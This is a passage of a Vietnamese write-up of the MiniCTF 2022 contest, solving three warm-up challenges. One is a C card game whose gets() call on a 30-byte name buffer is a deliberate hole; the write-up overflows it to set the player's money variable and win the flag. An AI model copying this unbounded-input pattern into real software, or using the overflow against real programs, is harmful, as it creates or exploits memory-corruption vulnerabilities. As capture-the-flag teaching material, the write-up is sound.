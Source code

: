 #MiniCTF 2022 Write-up

###Nội dung:
[1.Warm Up](#warmup)
   [1.1 Basic Forensics]()
   [1.2 What is Netcat]()
   [1.3 Abcbof]()
   [1.4 Rock, Paper, Scissors]()
[2.Web](#web)
   [2.1 PHP Moon Cake]()
   [2.2 Get out of here]()
   [2.3 Find Flag]()
   [2.4 keiichi]()
[3.Forensics]
   [3.1 Correct File?]()
   [3.2 Japanese Food]()
   [3.3 Where is Nemo?]()
   [3.4 Are you Wibu??]()
   [3.5 OnlyFan]()
[4.Cryptography]
   [4.1 Do you know what is basecrack]()
   [4.2 Love Song]()
   [4.3 Ceasar Knight]()
   [4.4 You are noob]()
   [4.5 ROTTOR]()
   [4.6 UwU]
[5.Reverse Engineering]
   [5.1 Baby Kinzx]()
   [5.2 EZ RE]()
   [5.3 Loop Key]()
   [5.4 XOR]()
[6.Misc]
   [6.1 Best Avatar]
   [6.2 Base64]
   [6.3 New Misc]
   
##1. Warm Up
###1.1 Basic Forensics
Đề bài cho chúng ta một file .svg. Đầu tiên hãy mở nó lên đã

![Circle](Warm_Up/Basic_Forensics/1.png)
Không có gì quá đặc biệt. Thử Inspect xem sao
![step2](Warm_Up/Basic_Forensics/2.png)
Ở trong block **<text>** ta có thể thấy được flag: ISPCTF{7hAt_warm_up_gnys}
	
###1.2 What is Netcat

Netcat là một phần mềm có thể đọc và viết dữ liệu thông qua giao thức TCP hoặc UDP chủ yếu được điều khiển bởi các phần mềm và scripts khác (Để biết thêm, tham khảo man nc)
	
Đề bài cho chúng ta một câu lệnh của netcat. Hãy thử nhập vào terminal xem sao
'''
$ nc 174.138.21.217 3136
	
                              NETCAT      
                            /\_____/\    
                           /  o   o  \   
                          ( ==  ^  == )   
                          ))         (    
                          (           )   
                         ( (  )   (  ) )  
                        (__(__)___(__)__) 
	

Here your flag: ISPCTF{Th1s_1s_n3t_c4t}
'''

###1.3 Abcbof
	
Vẫn là một câu lệnh netcat, nhập vào terminal thôi 
'''
$ nc 174.138.21.217 3137
	
Hãy nhập tên người chơi: writeup
==========================Game Bài Đoán Số Uy Tín Đổi Thưởng==========================
| 1. Chơi Game   |  2. Hướng Dẫn   |   3. Đổi Flag   |  4. Tài Khoản | 5. Thoát Game |
======================================================================================

Hello writeup, chào mừng bạn đến với Game Bài Uy Tín Top 1 Việt Nam !!!
Nhập lựa chọn của bạn: 
2
==============Hướng Dẫn==============
  Chiến thắng để dành giải thưởng   
      1 triệu $ từ Halston <3       
                                    
 Mỗi lần nhập hãy nhập vào một lá   
  mà giống với lá bài của nhà cái   
  Bộ bài chỉ gồm 9 lá từ 2 đến 10    
 Do lợi nhuận cao nên mọi người đến 
 chơi bài rất nhiều dẫn đến khi đi  
 về họ cầm theo cả Át, J, Q, K để   
 đi về. Mỗi lần đoán đúng sẽ được   
             50 000$                
                                    
               Hint                 
  Hãy cố gắng nhập THẬT NHIỀU để    
      có thể chiến thắng nhé.       
                     Kevin Halston  
=====================================


'''

Có vẻ như đây là một trò chơi, flag có trị giá 1 000 000 000$ mà mỗi lần thắng chỉ được có 50 000$. Nếu lần nào cũng thắng thì phải thắng 20 000. Oải ha. Thế chắc không chơi đúng luật được rồi. Đề bài còn cho kèm theo source code nữa kìa. Để xem có gì thú vị không.

'''
#include <stdio.h>
#include <math.h>
#include <string.h>
#include <unistd.h>
#include <stdlib.h>
#include <time.h>


void isp();
void huongDan();
void flag();
int main(){   
    long long money = 0;
    puts("==========================Game Bai Doan So Uy Tin Doi Thuong ==========================");
    puts("| 1. Choi Game   |  2. Huong Dan   |   3. Doi Flag   |  4. Thoat Game |  5. Tai Khoan |");
    puts("======================================================================================");
    puts("Hay nhap ten nguoi choi:");
    char name[30];
    gets(name);
    system("clear");
TieuDe:
    isp();
    puts("==========================Game Bai Doan So Uy Tin Doi Thuong==========================");
    puts("| 1. Choi Game   |  2. Huong Dan   |   3. Doi Flag   |  4. Tai Khoan | 5. Thoat Game |");
    puts("======================================================================================");
    puts("");
    printf("Hello %s, chao mung ban den voi Game Bai Uy Tin Top 1 Viet Nam !!!\n", name);
    int x;
    puts("Nhap lua chon cua ban:");
    scanf("%d", &x);
    fflush(stdin);
    switch(x){
        case 1:
            printf("\nTai khoan cua ban co %lld $\n", money);
            printf("Hello %s chao mung ban den voi cuoc choi song con\n", name);
            srand(time(NULL));
            puts("Hay nhap la bai ma ban doan");
            int card;
            scanf("%d", &card);
            int ran = rand() %  9 + 2;
            if(ran == card){
                money += 50000;
                puts("Chuc mung ban da kiem duoc 50 000 $");
                printf("\nQuay tro lai sau %d giay\n", ran);
                puts("Vui long doi trong giay lat");
                sleep(ran);
                system("clear");
                goto TieuDe;
            }
            else{
                puts("Ban da doan sai, vui long thu lai sau");
                sleep(1);
                system("clear");
                goto TieuDe;
            }
                   
        case 2:
            huongDan();
            puts("");
            puts("Quay tro lai sau 10 giay");
            sleep(10);
            system("clear");
            goto TieuDe;
        
        case 3:
            printf("\nTai khoan cua ban co %lld $ \n", money);
            puts("=====================FLAG=======================");
            puts("|Ban co muon mua FLAG voi gia 1 000 000 000 $  |");
            puts("|----------------------------------------------|");
            puts("|         1. YES      |         2. NO          |");
            puts("================================================");
            int x;
            puts("Lua chon cua ban : ");
            scanf("%d", &x);
            if(x == 1){
                if(money >= 1000000000){
                    printf("\n\nChuc mung ban da chien thang\n");
                    puts("Day la Flag cua ban:");
                    flag();
                    return 0;
                }
                else{
                    puts("Ban khong du tien hay doan bai de kiem them");
                    sleep(2);
                    system("clear");
                  goto TieuDe;
                }
            }
            else{
                puts("Ban da nhap sai cu phap, vui long thu lai sau");
                sleep(2);
                system("clear");
                goto TieuDe;
            }
        case 5:
            puts("Tam biet ban, hen gap lai lan sau");
            puts("       From ISP with love <3     ");
            return 0;
    
        case 4:
            printf("\nTai khoan cua ban co %lld $ \n", money);
            puts("Quay tro lai sau 3 giay");
            sleep(3);
            system("clear");
            goto TieuDe;

        default:
            puts("Ban da nhap sai vui long nhap lai sau 3 giay");
            sleep(3);
            system("clear");
            goto TieuDe;     
    }
    return 0;
}
...
'''
Còn dài nữa nhưng chúng ta chỉ cần quan tâm phần đầu thôi. Cụ thể là đoạn này
'''
long long money = 0;
puts("==========================Game Bai Doan So Uy Tin Doi Thuong ==========================");
puts("| 1. Choi Game   |  2. Huong Dan   |   3. Doi Flag   |  4. Thoat Game |  5. Tai Khoan |");
puts("======================================================================================");
puts("Hay nhap ten nguoi choi:");
char name[30];
gets(name);
system("clear");
'''
Ta có thể thấy biến 'name' là một char array có 30 phần tử. Vậy điều gì sẽ xảy ra nếu chúng ta nhập một chuỗi dài hơn 30 ký tự? Nó sẽ bị tràn, và tràn ra biến trước đó, là 'long long money = 0'. Bằng cách này ta có thể hack tiền. Thử ha
				
'''
Hãy nhập tên người chơi: 1111111111111111111111111111111111111111111111111111111111111
==========================Game Bài Đoán Số Uy Tín Đổi Thưởng==========================
| 1. Chơi Game   |  2. Hướng Dẫn   |   3. Đổi Flag   |  4. Tài Khoản | 5. Thoát Game |
======================================================================================

Hello 1111111111111111111111111111111111111111111111111111111111111, chào mừng bạn đến với Game Bài Uy Tín Top 1 Việt Nam !!!
Nhập lựa chọn của bạn:
3

Tài khoản của bạn có 3544668469065756977 $ 
=====================FLAG=======================
|Bạn có muốn mua FLAG với giá 1 000 000 000 $  |
|----------------------------------------------|
|         1. YES      |         2. NO          |
================================================
Lựa chọn của bạn : 
1


Chúc mừng bạn đã chiến thắng
Đây là Flag của bạn:
ISPCTF{B4s1c_Buff3r_0v3rFl0w}

'''



